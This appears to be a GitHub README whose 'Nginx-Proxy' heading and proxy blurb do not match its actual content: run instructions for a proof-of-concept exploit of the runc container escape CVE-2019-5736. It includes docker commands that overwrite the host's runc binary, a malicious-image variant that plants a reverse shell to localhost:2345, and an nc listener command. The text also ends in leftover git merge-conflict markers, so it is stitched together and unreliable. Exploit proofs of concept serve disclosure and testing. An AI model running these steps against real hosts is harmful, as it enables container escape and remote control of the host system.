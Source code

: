 # Nginx-Proxy

### Why proxy ?
---
A reverse proxy intercepts incoming requests and directs them to the appropriate server. Not only does this speed up performance, it also strengthens server security.

Clone the repository:
```sh
$ git clone git@github.com:BBRathnayaka/RunC-CVE-2019-5736.git
```

### Exec POC
Overwrites runc with a simple program that prints a string.

Running the exec POC:
```sh
$ docker build -t cve-2019-5736:exec_POC ./RunC-CVE-2019-5736/exec_POC
$ docker run -d --rm --name poc_ctr cve-2019-5736:exec_POC
$ docker exec poc_ctr bash
```
### Malicious Image POC
Overwrites runc with a simple reverse shell bash script that connects to localhost:2345.

Listen for the reverse shell:
```sh
$ nc -nvlp 2345
```

From a different shell, run the malicious image POC:
```sh
$ docker build -t cve-2019-5736:malicious_image_POC ./RunC-CVE-2019-5736/malicious_image_POC
$ docker run --rm cve-2019-5736:malicious_image_POC
```
#### Reference
```
See [Twistlock Labs](https://www.twistlock.com/labs-blog/breaking-docker-via-runc-explaining-cve-2019-5736/ "Explaining CVE-2019-5763") for an explanation of CVE-2019-5736 and the POCs.

The malicious image POC is heavily based on [q3k’s POC](https://github.com/q3k/cve-2019-5736-poc), so all credit goes to him.
```


=======
>>>>>>> 6336d8e5c8c9804aaeb076ad1fbea1975a3cae6f
